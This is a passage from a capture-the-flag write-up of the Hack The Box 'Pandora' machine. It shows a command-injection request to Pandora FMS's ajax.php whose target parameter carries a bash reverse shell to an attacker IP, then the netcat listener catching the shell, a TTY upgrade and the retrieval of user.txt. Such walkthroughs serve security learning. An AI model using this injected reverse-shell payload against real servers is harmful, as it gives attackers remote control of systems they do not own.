 

I'll send that request to Burp Repeater, and replace the payload with
the much smaller one in the POC link. I'll have to tweak it a bit to get
it to work, but eventually I'll end up with this:



    POST /pandora_console/ajax.php HTTP/1.1
    Host: pandora.panda.htb:9001
    ...[snip]...
    Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

    page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1



On sending, I get a shell as matt:



    oxdf@hacky$ nc -nvlp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.136 44100
    bash: cannot set terminal process group (10969): Inappropriate ioctl for device
    bash: no job control in this shell
    matt@pandora:/var/www/pandora/pandora_console$ id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)



I'll upgrade my shell:



    matt@pandora:/var/www/pandora/pandora_console$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    matt@pandora:/var/www/pandora/pandora_console$ ^Z
    [1]+  Stopped                 nc -nvlp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -nvlp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    matt@pandora:/var/www/pandora/pandora_console$ 



And grab `user.txt`:



    matt@pandora:/home/matt$ cat user.txt
    4379b69e************************



### RCE #2: Admin Upload

#### Get Admin Cookie
